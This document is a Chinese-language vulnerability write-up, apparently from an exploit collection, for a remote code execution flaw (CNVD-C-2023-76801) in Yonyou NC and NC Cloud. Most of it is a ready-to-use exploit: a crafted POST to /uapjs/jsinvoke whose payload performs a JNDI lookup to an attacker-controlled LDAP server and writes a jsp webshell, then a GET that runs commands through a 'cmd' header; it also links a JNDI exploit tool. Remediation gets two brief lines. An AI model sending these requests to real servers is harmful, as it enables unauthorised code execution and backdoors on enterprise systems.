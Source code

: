# 

# 用友 NC Cloud 远程代码执行漏洞 CNVD-C-2023-76801

## 漏洞描述

用友 NC 及 NC Cloud 系统存在任意文件上传漏洞，攻击者可通过 uapjs（jsinvoke）应用构造恶意请求非法上传后门程序，此漏洞可以给 NC 服务器预埋后门，从而可以随意操作服务器。

## 漏洞影响

```
NC63、NC633、NC65
NC Cloud1903、NC Cloud1909
NC Cloud2005、NC Cloud2105、NC Cloud2111
YonBIP 高级版 2207
```

## 漏洞复现

JNDI：https://github.com/WhiteHSBG/JNDIExploit

exp：

```
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
 
{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/jndi.jsp"]}
```

exp 中使用的是 JNDI 工具的 TomcatEcho 回显链 ，执行命令并回显：

```
GET /jndi.jsp HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
cmd: whoami
```

## 漏洞修复

1. 官方已经发布修复补丁，请进行升级。
2. 或者进行 waf 等安全部署拦截恶意字符
